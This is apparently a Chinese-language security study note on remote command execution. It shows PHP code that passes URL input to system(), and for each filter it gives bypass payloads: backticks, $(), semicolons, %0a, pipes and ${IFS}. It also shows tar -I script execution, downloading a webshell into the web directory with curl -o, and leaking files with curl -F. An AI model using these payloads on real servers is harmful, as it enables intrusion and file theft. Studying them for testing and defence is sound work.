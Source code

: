 # RCE 

[TOC]

## ByPass

过滤了双引号，执行命令的时候用双引号包裹

```php
$_GET[str] = str_replace("\", "", $_GET[str]);

system("echo \"$_GET[str]\";");
```

可以在输入中使用反引号包裹要执行的命令，例如`whoami`

 

过滤了双引号和反引号，执行命令时用双引号包裹

```php
$_GET[str] = str_replace(array("\"","`"), "", $_GET[str]);

system("echo \"$_GET[str]\";");
```

可以在输入中使用美元符号加括号包裹要执行的命令，例如$(whoami)

 

过滤了绝大多数特殊符号，执行的时候没有引号包裹

```php
$_GET[str] = str_replace(array("\"","`","$","(",")"), "" ,$_GET[str]);

system("echo $_GET[str];");
```

可以在输入中添加分号闭合echo命令的结束然后直接输入要执行的命令



过虑了绝大多数符号包括分号，执行的时候没有引号包裹

```php
$_GET[str] = str_replace(array("\"", "`", "$", "(", ")", ";"), "", $_GET[str]);
system("echo $_GET[str];");
```

利用URL编码，**%0a是换行符，%0d是回车符号**，可以在输入的要执行命令之前添加%0a起到换行的效果，例如%0awhoami<br>也可以使用**管道操作符**，将前一个命令的输出作为后一个命令的输入,起到闭合echo命令的作用，例如|whoami



过虑了空格

```php
$_GET[str] = str_replace(" ", "", $_GET[str]);
system("echo $_GET[str];");
```

可以使用shell中的**IFS变量**，下面对IFS进行简单的说明

> Shell的环境变量分为两种，**set**和**env**。set变量可以通过export导入env中。set是显示设置shell变量，仅在本shell中有效；env是显示设置用户环境变量，仅在当前会话中有效。当然，可以通过将export语句将环境变量写入/etc/profile文件来达到永久有效的目的。IFS就是一种set变量，当shell处理“命令替换”和“参数替换”时，shell会根据IFS的值，**默认是space，tab，newline**来拆解读入的变量。

可以使用

```shell
echo $IFS | od -b
```

来查看此变量的值。因为默认是空格之类的不可见符号，所以使用二进制来查看。

也就是说，如果没有对IFS进行特殊设置，是可以直接调用当作空格来使用。因此此处就可以使用例如ls${IFS}-al的方式来执行含有空格的命令。

## 参数执行

利用tar命令的-I参数来实现命令执行，首先创建一个可执行文件，命名为pwn.sh并赋予执行权限

```shell
#!/bin/bash
touch pwned
```

接着使用tar命令的**-I**参数执行此文件

```shell
tar cvf 1.tar -I ./pwn.sh test
```

随便压缩一个文件就行，看一下效果，目录中已经多出了一个名为pwned的文件

![pwned](images/1.png)



利用curl的参数来实现命令执行，利用**-o**输出到web目录，写一个webshell。

```shell
curl <包含恶意代码/webshell的网址> -o <输出目录>
```

效果如下

![curl参数](images/2.png)



利用curl的**-F**参数可以造成本地文件泄露

